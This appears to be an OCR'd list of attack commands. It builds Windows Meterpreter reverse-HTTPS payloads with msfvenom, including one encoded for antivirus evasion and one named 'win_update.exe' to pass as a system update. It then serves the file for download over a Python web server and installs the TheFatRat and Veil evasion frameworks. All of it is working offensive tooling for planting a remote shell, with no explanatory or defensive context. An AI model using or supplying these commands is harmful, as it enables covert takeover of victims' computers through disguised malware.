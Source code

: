 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/win_update.exe


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh

sudo ./fatrat

cd ~
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
sudo ./config/setup.sh --force

sudo veil



